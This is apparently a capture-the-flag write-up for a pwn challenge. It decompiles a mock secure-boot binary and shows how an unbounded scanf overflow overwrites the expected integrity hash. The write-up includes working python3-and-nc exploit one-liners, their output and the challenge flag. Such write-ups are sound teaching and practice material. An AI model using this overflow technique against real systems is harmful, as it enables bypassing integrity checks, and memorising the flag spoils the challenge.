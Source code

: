 # Somewhat SecureBoot
Category: Pwn, 150 Points

## Description

> My boss told me to implement a chain of trust mechanism for a remote server boot process. He said: "There are 3 bootloaders - BL1, BL2, BL3. make sure that no one will be able to compromise our images. use a strong integrity solution, You can use SHA256 or something."
> 
> So that's exactly what I did. The funny thing is - BL3 was already compromised, I have no idea what BL3 is suppose to do. But I do know that it's something important.
> 
> BTW, I don't think my boss knows much about integrity (don't tell him I said it).
> 
> nc challenges.ctfd.io 30071

An executable was attached.

## Solution

Let's connect to the service:

```console
root@kali:/media/sf_CTFs/matrix/Somewhat_SecureBoot# nc challenges.ctfd.io 30071
Bootloader number 1 - Up and running...
Checking environment...
Env is valid.

Setting up memory...
Configuring hardware...
Bootloader 1 completed. Calling next bootloader to load the kernel...

Attempting to load the bootloader /bootloaders/BL2.bin with hash e95e57eff2ae77a55f0559450ffafb508a33a21fff0c8a702f8858e682a02281
Bootloader integrity verified successfully.
Bootloader number 2... Up and running...

Configuring kernel...
Setting up process table...
Reserving ports 0-1023...
Initializing scheduler...
Crontab daemon started...
Bootloader 2 finished. Calling next bootloader to open up a shell...

Please enter the desired shell to execute upon startup (press 'a' for /bin/sh)

a
Executing shell: /bin/sh

Attempting to load the bootloader /bootloaders/BL3.bin with hash 20375b4eec91d51308d624660f7e0b4e8cd9fa4f82b5d50b6d38b6d1452c3070
Bootloader integrity compromised... Expected receiving hash: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Exiting...
```

We are asked to provide input. Entering 'a' should connect us to a `/bin/sh`, assuming we have a bootloader with the expected hash of `aaaaa...aa`. It looks like we have a different one though.

Let's take a look at the decompiled sources with Ghidra:
```c
undefined8 main(void)
{
  long lVar1;
  int iVar2;
  char **ppcVar3;
  long in_FS_OFFSET;
  char bootloader3_str [21];
  char user_input [32];
  char aaa_str [65];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  bootloader3_str._0_8_ = 7020949591435469359;
  bootloader3_str._8_8_ = 3696402165732107620;
  bootloader3_str._16_4_ = 1852400174;
  bootloader3_str[20] = '\0';
  aaa_str._0_8_ = 0x6161616161616161;
  aaa_str._8_8_ = 0x6161616161616161;
  aaa_str._16_8_ = 0x6161616161616161;
  aaa_str._24_8_ = 0x6161616161616161;
  aaa_str._32_8_ = 0x6161616161616161;
  aaa_str._40_8_ = 0x6161616161616161;
  aaa_str._48_8_ = 0x6161616161616161;
  aaa_str._56_8_ = 0x6161616161616161;
  aaa_str[64] = '\0';
  puts("Bootloader number 2... Up and running...\n");
  fflush(stdout);
  puts("Configuring kernel...");
  fflush(stdout);
  usleep(500000);
  puts("Setting up process table...");
  fflush(stdout);
  usleep(600000);
  puts("Reserving ports 0-1023...");
  fflush(stdout);
  usleep(600000);
  puts("Initializing scheduler...");
  fflush(stdout);
  usleep(700000);
  puts("Crontab daemon started...");
  fflush(stdout);
  usleep(700000);
  puts("Bootloader 2 finished. Calling next bootloader to open up a shell...\n");
  fflush(stdout);
  puts("Please enter the desired shell to execute upon startup (press \'a\' for /bin/sh)\n");
  fflush(stdout);
  __isoc99_scanf("%s",user_input);
  iVar2 = strcmp(user_input,"a");
  if (iVar2 == 0) {
    user_input._0_8_ = 29400045130965551;
  }
  printf("Executing shell: %s\n\n",user_input);
  fflush(stdout);
  ppcVar3 = read_firmaware(bootloader3_str);
  printf("Attempting to load the bootloader %s with hash %s\n",*ppcVar3,ppcVar3[1]);
  fflush(stdout);
  iVar2 = strcmp(ppcVar3[1],aaa_str);
  if (iVar2 == 0) {
    puts("Bootloader integrity verified successfully.");
    fflush(stdout);
    load(ppcVar3);
  }
  else {
    printf("Bootloader integrity compromised... Expected receiving hash: %s\nExiting...\n",aaa_str);
    fflush(stdout);
    destroy_bootloader(ppcVar3);
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

We see that the program uses `scanf` to read user input into a buffer of 32 bytes. `scanf` is unsafe and we can use it to perform a buffer overflow.

```console
root@kali:/media/sf_CTFs/matrix/Somewhat_SecureBoot# python3 -c "print ('b'*35)" | nc challenges.ctfd.io 30071 | grep hash
Attempting to load the bootloader /bootloaders/BL2.bin with hash e95e57eff2ae77a55f0559450ffafb508a33a21fff0c8a702f8858e682a02281
Attempting to load the bootloader /bootloaders/BL3.bin with hash 20375b4eec91d51308d624660f7e0b4e8cd9fa4f82b5d50b6d38b6d1452c3070
Bootloader integrity compromised... Expected receiving hash: bbb
```

Looks like we can override the expected hash. Let's override it with the actual value:
```console
root@kali:/media/sf_CTFs/matrix/Somewhat_SecureBoot# python3 -c "print ('b'*32 + '20375b4eec91d51308d624660f7e0b4e8cd9fa4f82b5d50b6d38b6d1452c3070')" | nc challenges.ctfd.io 30071
Bootloader number 1 - Up and running...
Checking environment...
Env is valid.

Setting up memory...
Configuring hardware...
Bootloader 1 completed. Calling next bootloader to load the kernel...

Attempting to load the bootloader /bootloaders/BL2.bin with hash e95e57eff2ae77a55f0559450ffafb508a33a21fff0c8a702f8858e682a02281
Bootloader integrity verified successfully.
Bootloader number 2... Up and running...

Configuring kernel...
Setting up process table...
Reserving ports 0-1023...
Initializing scheduler...
Crontab daemon started...
Bootloader 2 finished. Calling next bootloader to open up a shell...

Please enter the desired shell to execute upon startup (press 'a' for /bin/sh)

Executing shell: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb20375b4eec91d51308d624660f7e0b4e8cd9fa4f82b5d50b6d38b6d1452c3070

Attempting to load the bootloader /bootloaders/BL3.bin with hash 20375b4eec91d51308d624660f7e0b4e8cd9fa4f82b5d50b6d38b6d1452c3070
Bootloader integrity verified successfully.
Bootloader number 3... Up and running...
Bootloader number 3 - Finished.

System is fully loaded and ready to use. The time is: 2020-02-20,20:40:23.
Welcome.
Congrats! FLAG__b00t_c0mpleted
```

